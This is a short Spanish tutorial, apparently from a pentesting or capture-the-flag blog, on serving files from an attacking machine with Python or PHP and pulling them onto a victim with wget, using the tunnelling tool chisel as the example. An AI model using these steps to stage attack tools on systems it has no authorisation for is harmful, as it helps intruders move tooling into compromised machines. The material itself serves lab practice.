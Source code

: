 ```yaml
---
title       : "Creación de servidor local"
excerpt:      "Realizaremos una pequeña explicación del método que utilizamos para transferir ficheros entre la máquina atacante y la víctima."
header:
  teaser: /assets/images/linux/prev.png
  teaser_home_page: true
  icon: /assets/images/TUX.png
classes		: wide
categories:
  - Sistemas
tags:  
  - Python
  - PHP
  - Howto
---
```


![](/assets/images/linux/prev.png){: .align-center}

Realizaremos una pequeña explicación del método que utilizamos para transferir ficheros entre la máquina atacante y la víctima.

Esto es muy útil en varios escenarios, pero un ejemplo típico es cuando queremos subir un binario a la máquina víctima. En primer lugar lo que necesitamos es colocarnos en el directorio donde tenemos los ficheros que queremos transferir. Una vez ahí, existen 2 formas de crear un servidor muy usadas:

1. Python: `python3 -m http.server 80` 
2. PHP: `php -S localhost:80`

> Para el ejemplo hemos utilizado el puerto 80, pero si está siendo usado, o por cualquier otro motivo no se puede utilizar, se cambia.

Una vez hemos creado este servidor, tendremos nuestros contenidos accesibles introduciendo nuestra IP local en la máquina víctima, por tanto siguiendo con el ejemplo, si queremos transferir chisel:

`wget 192.168.1.150/chisel` 

![](/assets/images/principle/copychisel.png){: .align-center}
Captura real tomada realizando la máquina propia Principle

Pues con esto ya estaría, basta decir que también se puede realizar a la inversa si la máquina víctima cuenta con Python y/o PHP.